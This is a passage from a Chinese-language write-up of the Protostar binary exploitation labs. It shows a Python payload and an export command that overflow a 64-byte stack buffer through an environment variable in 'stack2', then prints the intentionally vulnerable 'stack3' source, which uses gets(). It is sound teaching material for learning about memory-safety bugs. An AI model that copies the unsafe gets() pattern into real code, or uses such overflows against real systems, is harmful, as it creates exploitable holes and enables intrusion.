 与另外两道题区别在于，这里获取输入是通过getenv获取GREENIE的环境变量值。因此我们可以通过export 设置好GREENIE的值。

这里简单分析一下modified值可以发现其还是紧接着buffer数组，因此输入只需要超过64的长度就可以覆盖到modified变量了。

我们通过python文件来简化我们的输入，首先编写如下的python代码为s2.py文件

```python
place = "A"*64
modified = "\x0a\x0d\x0a\x0d"
res = place + modified
print res
```

然后使用指令:

```shell
export GREENIE=`python s2.py`
```

那么打印该环境变量结果，以及运行stack2的结果应该如图1-8：

<div>
    <center><!--将图片和文字居中-->
    <img src="1-8.png"
         alt="1-8.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-8 <!--标题-->
    </center>
</div>

为什么0x0d0a0d0a不显示呢？这是因为"\x0a\x0d" 是两个特殊字符的编码，表示换行符和回车符，其中0xa和0xd就是这两个符号对应的ascii码值。"\x" 是一种特殊的字符序列，用于表示后面跟随的两个十六进制数字所代表的字符。使用 "\x" 这种特殊字符序列的目的是为了方便地表示一些不可见或难以输入的字符，例如换行符、回车符等。


###### 0x114 stack3

源码:

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
